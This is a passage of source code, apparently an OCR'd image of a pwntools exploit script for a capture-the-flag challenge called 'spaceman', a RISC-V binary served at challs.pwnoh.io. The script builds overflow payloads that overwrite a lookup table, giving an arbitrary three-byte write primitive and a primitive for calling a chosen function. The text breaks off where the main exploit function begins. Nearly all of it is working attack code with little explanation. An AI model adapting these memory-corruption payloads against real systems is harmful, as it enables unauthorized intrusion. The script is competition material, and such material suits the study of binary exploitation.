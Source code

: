 ```python
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "challs.pwnoh.io"
PORT = 13372

def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
        set architecture riscv:rv64
        target remote localhost:1234
    '''

    if args.GDB:
        return process(['qemu-riscv64', '-g', '1234', 'spaceman'], level='error')
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)


def write_three_bytes(io, p_addr, addr, data):
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["read"]) # make look up table point to anywhere

    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))

    sl(io, data)

def write_data(io, pp_addr, p_addr, addr, data):
    data = b"AAA\x00\x00" + data

    for i in range(int(len(data) / 3)):
        print(data[i * 3: i * 3 + 3])
        # write three bytes at writable data
        write_three_bytes(io, p_addr, addr, data[i * 3: i * 3 + 4])
        addr += 3

        # increase addr by 3 
        write_three_bytes(io, pp_addr, p_addr, p32(addr))


# Calls func with func(0, addr, 3)
def call_func(io, p_addr, addr, func):
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(func) 

    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))


def exploit(io,e):
    sleep(5)
    # 0x8a488 => 0x8a2b8 => 0x8a518 => writeable mem
    # pp_addr -> p_addr -> writeable_ptr -> writeable mem

```